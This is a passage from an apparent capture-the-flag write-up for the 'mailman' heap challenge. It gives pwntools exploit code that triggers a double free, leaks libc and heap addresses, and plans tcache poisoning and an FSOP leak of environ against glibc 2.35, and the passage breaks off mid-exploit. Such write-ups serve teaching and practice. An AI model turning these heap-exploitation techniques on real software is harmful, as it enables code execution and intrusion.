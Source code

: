 ```py
def write_letter(index,size,content):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"idx:",str(index).encode())
    p.sendlineafter(b"size:",str(size).encode())
    p.sendlineafter(b"content",content)

def send_letter(index):
    p.sendlineafter(b">",b"2")
    p.sendlineafter(b"idx:",str(index).encode())

def read_letter(index):
    p.sendlineafter(b">",b"3")
    p.sendlineafter(b"idx:",str(index).encode())
    return(p.recvline()[1:-1])

for i in range(7):
    write_letter(i,0x100,b"a"*8)  # tcache chunks
write_letter(8,0x100,b"prev"*8)   # prev chunk
write_letter(9,0x100,b"c"*8)      # actual chunk
write_letter(10,0x90,b"d"*8)      # guard chunk
for i in range(7):
    send_letter(i)
send_letter(9)
send_letter(8)
write_letter(10,0x100,b'a'*8)
send_letter(9)                    # trigger double free
heap_leak = defuscate(u64(read_letter(1).ljust(8,b"\x00")))
libc.address = u64(read_letter(8).ljust(8,b"\x00")) - 0x219ce0
log.critical(f"libc base: {hex(libc.address)}")
log.critical(f"heap leak: {hex(heap_leak)}")

p.interactive()
```

Thus we can create overlapping chunks in order to do `tcache poisoning`. To do that we will first allocate a chunk of size `0x110` and then overwrite the `linked list` of `tcache`. Thus we have arbitrary write. The given version of `libc` is 2.35 this is does not have `__malloc_hook` or `__free_hook`. Thus we need to write shellcode on the stack and get the flag. In this case we can use `FSOP` to get the `stack leak` from `environ`.

<a href="https://ctftime.org/writeup/34812">This</a> writeup is a great source of learning FSOP. Basically we try to write to the `_IO_2_1_stdout_` stream in order to read any arbitrary address we want. To do that we have to write the following data:

```c
fp->_flags = (fp->_flags & ~(_IO_NO_WRITES)) | _IO_CURRENTLY_PUTTING | _IO_IS_APPENDING.
f->_IO_write_ptr = fp->_IO_write_end = f->_IO_buf_end = &environ + 8.
fp->_IO_write_base = &environ.
```

The exploit will be as follows.

```py
from pwn import *

elf = context.binary = ELF("./vuln",checksec=False)
p = remote("mailman.chal.imaginaryctf.org", 1337)
# p = elf.process()
libc = elf.libc

# gdb.attach(p,'''
#     init-gef
#     c
# ''')
           
def defuscate(x,l=64):
```
